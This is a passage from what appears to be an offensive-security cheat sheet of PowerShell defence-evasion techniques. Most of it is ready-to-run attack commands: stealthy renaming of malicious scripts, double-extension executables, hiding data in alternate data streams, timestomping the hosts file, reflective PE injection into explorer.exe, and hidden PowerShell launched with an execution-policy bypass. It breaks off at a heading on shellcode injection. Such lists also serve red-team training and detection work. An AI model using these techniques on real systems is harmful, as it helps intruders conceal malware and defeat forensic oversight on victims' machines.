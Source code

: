 **Using Stealthy File Names**&#x20;

* Rename a file to a legitimate-looking name:

```powershell
Rename-Item -Path "C:\Users\Public\malicious.ps1" -NewName "legit.ps1"
```

* Create files with misleading extensions:

```powershell
New-Item -Path "C:\Windows\Temp\document.txt.exe" -ItemType "file"
```

**Hiding Files in Alternate Data Streams (ADS)**&#x20;

* Create an alternate data stream:

```powershell
Set-Content -Path "C:\Windows\System32\notepad.exe:hidden.txt" -Value "Malicious Content"
```

* Access data in an alternate data stream:

```powershell
Get-Content -Path "C:\Windows\System32\notepad.exe:hidden.txt"
```

**Modifying System Timestamps (Timestomping)**&#x20;

* Modify file timestamps to make them appear older:

```powershell
(Get-Item "C:\Windows\System32\drivers\etc\hosts").LastWriteTime = "01/01/2020 12:00:00"
```

* Change the creation time of a file:

```powershell
(Get-Item "C:\Windows\System32\drivers\etc\hosts").CreationTime = "01/01/2020 12:00:00"
```

## Process Injection and Hiding&#x20;

Injecting into legitimate processes or running PowerShell commands in memory can help evade detection.

**Process Injection Using `Invoke-ReflectivePEInjection`**&#x20;

```powershell
Invoke-ReflectivePEInjection -PEBytes (Get-Content C:\path\to\malicious.exe -Encoding Byte) -ProcessID (Get-Process explorer).Id
```

**Spawn a Hidden PowerShell Process**&#x20;

```powershell
Start-Process powershell.exe -WindowStyle Hidden -ArgumentList "-NoProfile -ExecutionPolicy Bypass -Command <commands>"
```

**Inject Shellcode into Another Process (e.g., `explorer.exe`)**&#x20;
